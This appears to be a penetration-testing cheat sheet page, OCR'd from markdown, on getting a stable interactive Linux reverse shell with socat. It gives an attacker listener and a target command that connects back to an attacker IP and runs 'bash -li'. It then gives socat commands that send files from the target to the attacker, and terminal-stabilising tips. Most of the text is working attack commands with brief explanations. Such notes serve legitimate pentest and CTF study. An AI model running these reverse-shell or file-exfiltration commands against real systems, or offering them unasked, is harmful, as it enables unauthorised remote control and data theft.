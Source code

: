 
### **Fully Stable Linux TTY Reverse Shell**

This method ensures a **stable and interactive bash shell**.

1. **Attacker Listener:**
   ```bash
   socat TCP-L:<port> FILE:`tty`,raw,echo=0
   ```
   - **Explanation:**
     - `FILE:\`tty\``: Treats the attacker's current terminal (TTY) as a file for the connection.
     - `raw`: Disables processing of special characters (e.g., Ctrl + C).
     - `echo=0`: Prevents local echo (duplicate inputs).

2. **Target Command:**
   ```bash
   socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
   ```
   - **Arguments:**
     - `pty`: Allocates a pseudoterminal on the target for a stable shell.
     - `stderr`: Redirects error messages to the shell.
     - `sigint`: Passes Ctrl + C to the subprocess (to kill commands inside the shell).
     - `setsid`: Starts the shell in a new session.
     - `sane`: Stabilizes and normalizes the terminal environment.

---

### **General Tips for Socat Usage**

1. **File Transfer with Socat:**
   - On the **attacker (listener)**:
     ```bash
     socat TCP-L:<port> - > file_name
     ```
   - On the **target (sender)**:
     ```bash
     socat - TCP:<attacker-ip>:<port> < file_name
     ```

2. **Troubleshooting Socat Shells:**
   - Add verbosity for debugging:
     ```bash
     socat -d -d <other-options>
     ```
   - Verbose flags (`-d -d`) show detailed logs for testing.

3. **Adjusting Terminal Dimensions:**
   - Find terminal rows/columns on the attacker:
     ```bash
     stty -a
     ```
   - Adjust terminal size on the target:
     ```bash
     stty rows <number>
     stty cols <number>
     ```

---